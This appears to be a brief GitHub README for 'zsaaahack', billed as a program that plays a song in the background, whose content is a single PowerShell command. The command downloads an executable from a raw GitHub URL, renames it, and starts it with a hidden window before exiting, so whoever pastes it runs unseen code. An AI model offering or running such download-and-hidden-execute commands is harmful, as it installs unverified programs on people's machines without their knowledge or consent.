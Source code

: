 # zsaaahack
A program that plays Danika House in the background

powershell -c Invoke-WebRequest -Uri http://raw.githubusercontent.com/BugzumDev/zsaaahack/main/elvtarsak.exe -OutFile zsaaa.exe; Start-Process -WindowStyle hidden zsaaa.exe; exit;
